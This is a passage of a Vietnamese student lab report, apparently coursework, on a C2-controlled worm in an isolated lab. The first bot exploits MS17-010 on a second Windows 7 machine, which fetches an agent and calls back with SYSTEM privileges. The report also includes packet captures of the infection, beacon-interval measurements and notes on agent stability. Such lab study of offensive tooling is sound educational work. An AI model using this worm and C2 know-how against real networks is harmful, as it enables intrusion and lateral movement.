
*Hình 6. Bot thứ hai nhận lệnh từ C2 và trả kết quả.*
-> `shell whoami` trả `nt authority\system`, `shell hostname` trả `lab1-PC`, `shell ipconfig` trả `192.168.201.140`


*Hình 7. Danh tính bot thứ hai đọc trên panel callback.*
-> `Host` là `LAB1-PC`, `User` là `SYSTEM`, `OS / Architecture` là `Windows 7 Professional 6.1.7601.65536(x64)`


Bot thứ hai chạy dưới quyền `SYSTEM` với `Elevation Level` là `4 ( SYSTEM Integrity )`, trong khi bot thứ nhất ở Hình 9 chỉ là tài khoản `me` với `Elevation Level` `3 ( High Integrity )`. Đó là vì nó không do người dùng bấm chạy mà do shellcode trong nhân hệ điều hành thả ra.

=> worm đi trọn vòng: C2 phát lệnh xuống bot 1, bot 1 khai thác MS17-010 sang máy 2, máy 2 tự kéo agent về và gọi ngược lên C2. Từ một bot ban đầu thành hai bot, điều khiển được cả hai từ cùng một giao diện

### Bắt gói để xem máy thứ hai chuyển thành bot lúc nào (mục b)

Em bật bắt gói trên Kali lọc đúng máy thứ hai trước khi bắn, nên cả quá trình nằm gọn trong một file.

**[Kali]**
```bash
tshark -i eth0 -a duration:220 -f "host 192.168.201.140 and (tcp port 80 or tcp port 8000)" -w v2_trace.pcap
tshark -r v2_trace.pcap -Y http -T fields -e frame.time_relative -e ip.src -e http.request.method -e http.request.uri -e http.content_length
```

*Hình 8. Toàn bộ quá trình máy thứ hai trở thành bot, đọc trên đường truyền.*
-> giây `0.00` máy thứ hai `GET /svc_update.exe`, tới giây `15.37` nó đã `POST /data` tức gọi về C2, chỉ `15.4` giây cho cả quãng đó


Gói `POST` đầu dài `688` byte là lượt trao khoá, các gói sau chỉ `264` byte là check-in rỗng, và một gói `5232` byte ở giây `115.11` là lúc bot trả kết quả ba lệnh em gửi xuống. Khoảng cách giữa các lần check-in của bot này đo được `22` tới `26` giây, rộng hơn hẳn bot thứ nhất vốn `9.4` tới `12.3` giây ở Hình 7 của Câu 5, dù hai bot chạy cùng một file payload với cùng ô `Callback Interval` là 10. Em chưa xác định được vì sao lệch, chỉ ghi lại con số đo được.

### Đo tính ổn định của agent (mục b)

Em để nguyên bot thứ nhất chạy và gửi lệnh rải ra trong suốt phiên thay vì gửi dồn một lúc, mốc thời gian đọc thẳng trên trang `Callbacks`.


*Hình 9. Panel callback của bot thứ nhất đặt cạnh toàn bộ danh sách lệnh đã gửi.*
-> `First Checkin` là `09:05 PM` còn `Last Checkin` lúc chụp là `8 seconds`, tức bot vẫn đang gọi về sau hơn một giờ

Danh sách task chạy từ `T-4` lúc `09:05 PM` tới `T-17` lúc `10:04 PM`, tức 14 lệnh rải đều suốt `59` phút chứ không dồn một lúc, và không lệnh nào trượt. Giữa phiên máy victim mất mạng một lúc, agent đứng im rồi **tự nối lại** khi mạng về chứ không chết, và nó chỉ dừng hẳn khi em tắt máy.

=> agent ổn định khi nó là một tiến trình độc lập. Thứ làm nó chết không phải Defender mà là cách khởi chạy, vì tiến trình con bị kéo theo khi cửa sổ cha đóng
